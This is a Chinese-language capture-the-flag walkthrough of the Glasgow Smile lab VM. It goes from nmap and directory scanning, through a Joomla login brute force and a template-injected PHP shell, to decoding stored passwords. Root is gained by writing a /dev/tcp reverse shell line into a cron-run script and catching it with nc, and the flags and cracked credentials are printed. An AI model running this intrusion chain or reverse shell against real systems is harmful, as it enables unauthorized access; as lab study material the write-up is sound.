






## 端口扫描
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p 22,80 192.168.10.176
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-06 21:16 EDT
Nmap scan report for 192.168.10.176
Host is up (0.00085s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 67:34:48:1f:25:0e:d7:b3:ea:bb:36:11:22:60:8f:a1 (RSA)
|   256 4c:8c:45:65:a4:84:e8:b1:50:77:77:a9:3a:96:06:31 (ECDSA)
|_  256 09:e9:94:23:60:97:f7:20:cc:ee:d6:c1:9b:da:18:8e (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 00:0C:29:1D:88:A4 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.65 seconds
```

## web渗透

通过目录扫描得到一个目录

/joomla               (Status: 301) [Size: 317] [--> http://192.168.10.176/joomla/]

找到目录后继续二级目录探测
```bash
---- Scanning URL: http://192.168.10.176/joomla/ ----
==> DIRECTORY: http://192.168.10.176/joomla/administrator/
==> DIRECTORY: http://192.168.10.176/joomla/bin/
==> DIRECTORY: http://192.168.10.176/joomla/cache/
==> DIRECTORY: http://192.168.10.176/joomla/components/
==> DIRECTORY: http://192.168.10.176/joomla/images/
==> DIRECTORY: http://192.168.10.176/joomla/includes/
+ http://192.168.10.176/joomla/index.php (CODE:200|SIZE:10013)
==> DIRECTORY: http://192.168.10.176/joomla/language/
==> DIRECTORY: http://192.168.10.176/joomla/layouts/
==> DIRECTORY: http://192.168.10.176/joomla/libraries/
==> DIRECTORY: http://192.168.10.176/joomla/media/
==> DIRECTORY: http://192.168.10.176/joomla/modules/
==> DIRECTORY: http://192.168.10.176/joomla/plugins/
+ http://192.168.10.176/joomla/robots.txt (CODE:200|SIZE:836)
==> DIRECTORY: http://192.168.10.176/joomla/templates/
==> DIRECTORY: http://192.168.10.176/joomla/tmp/
```
找到如上一些目录

看下robots.txt
其中也有不少目录
搜集一下信息，感觉这靶机做的不是很好
登录名是joomla，没有任何提示
密码是通过cewl生成的密码本中的一个
就这样过吧

这里想用hydra爆破，但是其实是不可行的
Joomla 身份验证无法使用 Hydra 进行暴力破解，因为令牌身份不断变化

老老实实burp爆破

s's
找到模板文件

可以编辑源代码

之后添加了一个shell.php
访问
http://192.168.10.176/joomla/templates/protostar/shell.php
得到反弹shell

## 提权


文件太多了，用蚁剑连了一下
看到该文件含有数据库信息
直接登录
得到用户密码
```bash
select * from taskforce;
+----+---------+------------+---------+----------------------------------------------+
| id | type    | date       | name    | pswd                                         |
+----+---------+------------+---------+----------------------------------------------+
|  1 | Soldier | 2020-06-14 | Bane    | YmFuZWlzaGVyZQ==                             |
|  2 | Soldier | 2020-06-14 | Aaron   | YWFyb25pc2hlcmU=                             |
|  3 | Soldier | 2020-06-14 | Carnage | Y2FybmFnZWlzaGVyZQ==                         |
|  4 | Soldier | 2020-06-14 | buster  | YnVzdGVyaXNoZXJlZmY=                         |
|  6 | Soldier | 2020-06-14 | rob     | Pz8/QWxsSUhhdmVBcmVOZWdhdGl2ZVRob3VnaHRzPz8/ |
|  7 | Soldier | 2020-06-14 | aunt    | YXVudGlzIHRoZSBmdWNrIGhlcmU=                 |
+----+---------+------------+---------+----------------------------------------------+
```
Bane:baneishere
Aaron:aaronishere
Carnage:carnageishere
buster:busterishereff
rob:???AllIHaveAreNegativeThoughts???
aunt:auntis the fuck here

### 垂直提权至rob

```bash
rob@glasgowsmile:~$ whoami
rob
rob@glasgowsmile:~$ ls -la
total 52
drwxr-xr-x 3 rob  rob  4096 Jun 16  2020 .
drwxr-xr-x 5 root root 4096 Jun 15  2020 ..
-rw-r----- 1 rob  rob   454 Jun 14  2020 Abnerineedyourhelp
-rw------- 1 rob  rob     7 Apr  6 20:12 .bash_history
-rw-r--r-- 1 rob  rob   220 Jun 13  2020 .bash_logout
-rw-r--r-- 1 rob  rob  3526 Jun 13  2020 .bashrc
-rw-r----- 1 rob  rob   313 Jun 14  2020 howtoberoot
drwxr-xr-x 3 rob  rob  4096 Jun 13  2020 .local
-rw------- 1 rob  rob    81 Jun 15  2020 .mysql_history
-rw-r--r-- 1 rob  rob   807 Jun 13  2020 .profile
-rw-r--r-- 1 rob  rob    66 Jun 15  2020 .selected_editor
-rw-r----- 1 rob  rob    38 Jun 13  2020 user.txt
-rw------- 1 rob  rob   429 Jun 16  2020 .Xauthority
rob@glasgowsmile:~$ cat user.txt
JKR[f5bb11acbb957915e421d62e7253d27a]
rob@glasgowsmile:~$ cat Abnerineedyourhelp
Gdkkn Cdzq, Zqsgtq rteedqr eqnl rdudqd ldmszk hkkmdrr ats vd rdd khsskd rxlozsgx enq ghr bnmchshnm. Sghr qdkzsdr sn ghr eddkhmf zants adhmf hfmnqdc. Xnt bzm ehmc zm dmsqx hm ghr intqmzk qdzcr, "Sgd vnqrs ozqs ne gzuhmf z ldmszk hkkmdrr hr odnokd dwodbs xnt sn adgzud zr he xnt cnm's."
Mnv H mddc xntq gdko Zamdq, trd sghr ozrrvnqc, xnt vhkk ehmc sgd qhfgs vzx sn rnkud sgd dmhflz. RSLyzF9vYSj5aWjvYFUgcFfvLCAsXVskbyP0aV9xYSgiYV50byZvcFggaiAsdSArzVYkLZ==
```


Hello Dear, Arthur suffers from severe mental illness but we see little sympathy for his condition. This relates to his feeling about being ignored. You can find an entry in his journal reads, "The worst part of having a mental illness is people expect you to behave as if you don't."
Now I need your help Abner, use this password, you will find the right way to solve the enigma
将这段密文凯撒解密一下就得到提示
那么还有一段密文需要解码

I33hope99my0death000makes44more8cents00than0my0life0
得到一段明文，猜猜是什么意思吧
```bash
rob@glasgowsmile:~$ ls /home
abner  penguin  rob
rob@glasgowsmile:~$ su abner
Password:
abner@glasgowsmile:/home/rob$ cd ~
abner@glasgowsmile:~$ ls -la
total 44
drwxr-xr-x 4 abner abner 4096 Jun 16  2020 .
drwxr-xr-x 5 root  root  4096 Jun 15  2020 ..
-rw------- 1 abner abner  167 Apr 11 07:17 .bash_history
-rw-r--r-- 1 abner abner  220 Jun 14  2020 .bash_logout
-rw-r--r-- 1 abner abner 3526 Jun 14  2020 .bashrc
-rw-r----- 1 abner abner  565 Jun 16  2020 info.txt
drwxr-xr-x 3 abner abner 4096 Jun 14  2020 .local
-rw-r--r-- 1 abner abner  807 Jun 14  2020 .profile
drwx------ 2 abner abner 4096 Jun 15  2020 .ssh
-rw-r----- 1 abner abner   38 Jun 16  2020 user2.txt
-rw------- 1 abner abner  399 Jun 15  2020 .Xauthority
abner@glasgowsmile:~$ cat user2.txt
JKR{0286c47edc9bfdaf643f5976a8cfbd8d}
```
看到确实存在一个用户abner，用这串明文su过去
居然还真就直接是密码
```bash
abner@glasgowsmile:~$ ls -la
total 44
drwxr-xr-x 4 abner abner 4096 Jun 16  2020 .
drwxr-xr-x 5 root  root  4096 Jun 15  2020 ..
-rw------- 1 abner abner  167 Apr 11 07:17 .bash_history
-rw-r--r-- 1 abner abner  220 Jun 14  2020 .bash_logout
-rw-r--r-- 1 abner abner 3526 Jun 14  2020 .bashrc
-rw-r----- 1 abner abner  565 Jun 16  2020 info.txt
drwxr-xr-x 3 abner abner 4096 Jun 14  2020 .local
-rw-r--r-- 1 abner abner  807 Jun 14  2020 .profile
drwx------ 2 abner abner 4096 Jun 15  2020 .ssh
-rw-r----- 1 abner abner   38 Jun 16  2020 user2.txt
-rw------- 1 abner abner  399 Jun 15  2020 .Xauthority
```
可以很明显发现bash_history与其他文件不同
```bash
abner@glasgowsmile:~$ cat .bash_history
whoami
systemctl reboot
fuck
su penguin
mysql -u root -p
exit
cd .bash/
ls
unzip .dear_penguins.zip
cat dear_penguins
rm dear_penguins
exit
ls
cd /home/abner/
ls
exit
```
这里直接find按名字就能找到对应压缩包
find / -name '.dear_penguins.zip' 2>/dev/null
解压密码就是adner的用户密码
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ cat dear_penguins
My dear penguins, we stand on a great threshold! It's okay to be scared; many of you won't be coming back. Thanks to Batman, the time has come to punish all of God's children! First, second, third and fourth-born! Why be biased?! Male and female! Hell, the sexes are equal, with their erogenous zones BLOWN SKY-HIGH!!! FORWAAAAAAAAAAAAAARD MARCH!!! THE LIBERATION OF GOTHAM HAS BEGUN!!!!!
scf4W7q4B4caTMRhSFYmktMsn87F35UkmKttM5Bz
```
最后那串字符是第三个用户的密码
```bash
penguin@glasgowsmile:~$ ls -la
total 40
drwxr-xr-x 5 penguin penguin 4096 Jun 16  2020 .
drwxr-xr-x 5 root    root    4096 Jun 15  2020 ..
-rw------- 1 penguin penguin    7 Apr 11 07:17 .bash_history
-rw-r--r-- 1 penguin penguin  220 Jun 15  2020 .bash_logout
-rw-r--r-- 1 penguin penguin 3526 Jun 15  2020 .bashrc
drwxr-xr-x 3 penguin penguin 4096 Jun 15  2020 .local
-rw-r--r-- 1 penguin penguin  807 Jun 15  2020 .profile
drwxr--r-- 2 penguin penguin 4096 Jun 16  2020 SomeoneWhoHidesBehindAMask
drwx------ 2 penguin penguin 4096 Jun 15  2020 .ssh
-rw------- 1 penguin penguin   58 Jun 15  2020 .Xauthority
penguin@glasgowsmile:~$ cd SomeoneWhoHidesBehindAMask/
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ ls -la
total 332
drwxr--r-- 2 penguin penguin   4096 Jun 16  2020 .
drwxr-xr-x 5 penguin penguin   4096 Jun 16  2020 ..
-rwSr----- 1 penguin penguin 315904 Jun 15  2020 find
-rw-r----- 1 penguin root      1457 Jun 15  2020 PeopleAreStartingToNotice.txt
-rwxr-xr-x 1 penguin root       612 Jun 16  2020 .trash_old
-rw-r----- 1 penguin penguin     38 Jun 16  2020 user3.txt
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ cat user3.txt
JKR{284a3753ec11a592ee34098b8cb43d52}
```
### 提权至root

```BASH
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ ls -la
total 332
drwxr--r-- 2 penguin penguin   4096 Apr 11 09:22 .
drwxr-xr-x 5 penguin penguin   4096 Jun 16  2020 ..
-rwSr----- 1 penguin penguin 315904 Jun 15  2020 find
-rw-r----- 1 penguin root      1457 Jun 15  2020 PeopleAreStartingToNotice.txt
-rwxr-xr-x 1 penguin root       666 Apr 11 09:22 .trash_old
-rw-r----- 1 penguin penguin     38 Jun 16  2020 user3.txt
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ cat .trash_old
#/bin/bash

#       (            (              )            (      *    (   (
# (      )\ )   (     )\ ) (      ( /( (  (       )\ ) (  `   )\ ))\ )
# )\ )  (()/(   )\   (()/( )\ )   )\()))\))(   ' (()/( )\))( (()/(()/( (
#(()/(   /(_)((((_)(  /(_)(()/(  ((_)\((_)()\ )   /(_)((_)()\ /(_)/(_)))\
# /(_))_(_))  )\ _ )\(_))  /(_))_  ((__(())\_)() (_)) (_()((_(_))(_)) ((_)
#(_)) __| |   (_)_\(_/ __|(_)) __|/ _ \ \((_)/ / / __||  \/  |_ _| |  | __|
#  | (_ | |__  / _ \ \__ \  | (_ | (_) \ \/\/ /  \__ \| |\/| || || |__| _|
#   \___|____|/_/ \_\|___/   \___|\___/ \_/\_/   |___/|_|  |_|___|____|___|
#

#


bash -c "/bin/bash -i >& /dev/tcp/192.168.10.12/1234 0>&1"
```
.trash_old是由root的cron作业执行
插入反弹shell即可得到root
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.10.12] from (UNKNOWN) [192.168.10.176] 37884
bash: cannot set terminal process group (1701): Inappropriate ioctl for device
bash: no job control in this shell
root@glasgowsmile:~# whoami
whoami
root
root@glasgowsmile:~# ls /root
ls /root
root.txt
whoami
root@glasgowsmile:~# cat /root/root
cat /root/root.txt
  ▄████ ██▓   ▄▄▄       ██████  ▄████ ▒█████  █     █░     ██████ ███▄ ▄███▓██▓██▓   ▓█████
 ██▒ ▀█▓██▒  ▒████▄   ▒██    ▒ ██▒ ▀█▒██▒  ██▓█░ █ ░█░   ▒██    ▒▓██▒▀█▀ ██▓██▓██▒   ▓█   ▀
▒██░▄▄▄▒██░  ▒██  ▀█▄ ░ ▓██▄  ▒██░▄▄▄▒██░  ██▒█░ █ ░█    ░ ▓██▄  ▓██    ▓██▒██▒██░   ▒███
░▓█  ██▒██░  ░██▄▄▄▄██  ▒   ██░▓█  ██▒██   ██░█░ █ ░█      ▒   ██▒██    ▒██░██▒██░   ▒▓█  ▄
░▒▓███▀░██████▓█   ▓██▒██████▒░▒▓███▀░ ████▓▒░░██▒██▓    ▒██████▒▒██▒   ░██░██░██████░▒████▒
 ░▒   ▒░ ▒░▓  ▒▒   ▓▒█▒ ▒▓▒ ▒ ░░▒   ▒░ ▒░▒░▒░░ ▓░▒ ▒     ▒ ▒▓▒ ▒ ░ ▒░   ░  ░▓ ░ ▒░▓  ░░ ▒░ ░
  ░   ░░ ░ ▒  ░▒   ▒▒ ░ ░▒  ░ ░ ░   ░  ░ ▒ ▒░  ▒ ░ ░     ░ ░▒  ░ ░  ░      ░▒ ░ ░ ▒  ░░ ░  ░
░ ░   ░  ░ ░   ░   ▒  ░  ░  ░ ░ ░   ░░ ░ ░ ▒   ░   ░     ░  ░  ░ ░      ░   ▒ ░ ░ ░     ░
      ░    ░  ░    ░  ░     ░       ░    ░ ░     ░             ░        ░   ░     ░  ░  ░  ░


Congratulations!

You've got the Glasgow Smile!

JKR{68028b11a1b7d56c521a90fc18252995}


Credits by

mindsflee
root@glasgows
```